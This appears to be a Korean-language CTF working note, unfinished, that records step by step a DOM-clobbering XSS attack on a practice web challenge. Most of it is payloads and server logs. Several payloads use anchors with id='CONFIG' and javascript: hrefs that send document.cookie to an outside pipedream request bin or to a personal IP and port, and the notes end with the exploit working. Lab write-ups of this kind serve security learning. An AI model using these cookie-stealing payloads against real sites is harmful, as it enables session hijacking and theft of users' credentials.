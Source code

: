 # 제작중..

# 삽질
<a href="report">test</a>
<a href="/report">test</a>
<a href="//www.naver.com">test</a> -> RPO 언인텐..?

<a href='javascript:document.location="https://www.naver.com" id='CONFIG' name='main'>link</a> <a id='CONFIG' name='debug'></a> -> 안됨

<a href='https://www.naver.com' id="CONFIG" name='main'>link</a> <a id='CONFIG' name='debug'></a> -> 됨

<a href='https://www.naver.com'>link</a> <a id='CONFIG' name='debug'></a> -> 됨

<a href='javascript:document.location="https://054e-118-235-6-100.ngrok-free.app"+"1234"' id="CONFIG" name='main'>main</a> <a id='CONIFG' name='debug'>notu</a>

https://pipedream.com/@s3curity/invite?token=6008fca8296b9c31613d9b60c5f59cc1

practice?content=<a href="javascript:document.location='https://www.naver.com'" id='CONFIG' name='main'>sadf</a><a href='id='CONFIG' name='debug'></a>

<a id="CONFIG">bypass</a>
<a id="CONFIG" name="location" href="javascript:document.location='https://www.google.com'">href</a>



# 첫 xss 성공
아래의 url로 접근하면 xss가 성공함
http://ssh.knock-on.org:10010/practice?content=<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://www.google.com'">href</a>

이를 기반으로 최종 페이로드를 짜봤는데, 이슈가 있음


### 페이로드 1
일단 아래와 같이 임시 도메인에 쿠키를 받기 위한 요청을 HTML 폼에 전달하여 보내면
http://ssh.knock-on.org:10010/practice에서 GET 폼에 아래의 데이터를 넣어줌
content -> <a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://enm9ufkipz1p.x.pipedream.net/'+document.cookie">href</a>

서버에서 아래와 같이 인코딩된 데이터를 받음
app_1  | 222.233.23.200 - - [03/May/2024 08:16:53] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A HTTP/1.1" 200 -

결과 -> xss 성공, 서버에 쿠키가 잘 전달됨

단순하게 서버입장에서 저런 페이로드를 받았으니까 /report 엔드포인트에서 서버에서 찍힌 'practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A' 이 페이로드 그대로 사용해보기로함

서버로그는 아래와같음
app_1  | 127.0.0.1 - - [03/May/2024 08:19:29] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A HTTP/1.1" 200 -

보면 알 수 있듯이 서버입장에서는 동일한 데이터를 받을 수 있음. 위는 /practice, 아래는 /report에서 전달한 페이로드
practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A
practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>%0D%0A

그런데 아래는 xss에 실패하고, 서버에는 쿠키가 전달 안됨..


### 페이로드 2
생각해보니까 어차피 /report에서 URL로 쏴주니까 HTML 폼에서 보낼게 아니라 URL에서 직접 보내야할 것 같음
http://ssh.knock-on.org:10010/practice?content=<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='https://enm9ufkipz1p.x.pipedream.net/'+document.cookie">href</a>
결과 -> 실패

인코딩 이슈일 것 같아서 아래와 같이 인코딩을 한 상태로 페이로드를 넘겨봤음
http://ssh.knock-on.org:10010/practice?content=%3Ca%20id%3D%22CONFIG%22%3Ebypass%3C%2Fa%3E%3Ca%20id%3D%22CONFIG%22%20name%3D%22location%22%20href%3D%22javascript%3Adocument.location%3D%27https%3A%2F%2Fenm9ufkipz1p.x.pipedream.net%2F%27%2Bdocument.cookie%22%3Ehref%3C%2Fa%3E

서버 로그
app_1  | 118.235.13.230 - - [03/May/2024 10:20:56] "GET /practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

결과 -> xss 성공, 서버에 쿠키가 잘 전달됨

같은 방식으로 다시 /report 엔드포인트에서 서버 로그에 찍힌 페이로드를 그대로 사용해봤음
서버로그
app_1  | 127.0.0.1 - - [03/May/2024 08:28:41] "GET /practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

분명 동일한 페이로드가 전달되었음
practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>
practice?content=<a%20id%3D"CONFIG">bypass</a><a%20id%3D"CONFIG"%20name%3D"location"%20href%3D"javascript:document.location%3D'https://enm9ufkipz1p.x.pipedream.net/'%2Bdocument.cookie">href</a>


그런데 결과적으로 xss에 실패하고, 서버에는 쿠키가 전달 안됨..

봇문젠가..? 실제 xss가 성공해서 리다이렉트 되는 속도보다 봇이 xss 당하는 속도보다 느린 것 같음 
봇이 뭔가 /practice까지는 갔다오는데, requestbin까지는 안들리고 오는 느낌..? -> 가능성있긴해서 requestbin 말고 local에서 서버 열고 해봄

http://211.250.216.249:7000/

<a id="CONFIG">bypass</a><a id="CONFIG" name="location" href="javascript:document.location='http://211.250.216.249:7000/'+document.cookie">href</a>

app_1  | 211.250.216.249 - - [05/May/2024 13:37:24] "GET /practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a> HTTP/1.1" 200 -

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

practice?content=<a+id%3D"CONFIG">bypass</a><a+id%3D"CONFIG"+name%3D"location"+href%3D"javascript:document.location%3D'http://211.250.216.249:7000/'%2Bdocument.cookie">href</a>

는 개소리였고 걍 봇이 안되는거였음 봇 바꾸니까 익스됨 ㅅㅄㅄㅄㅄㅂ
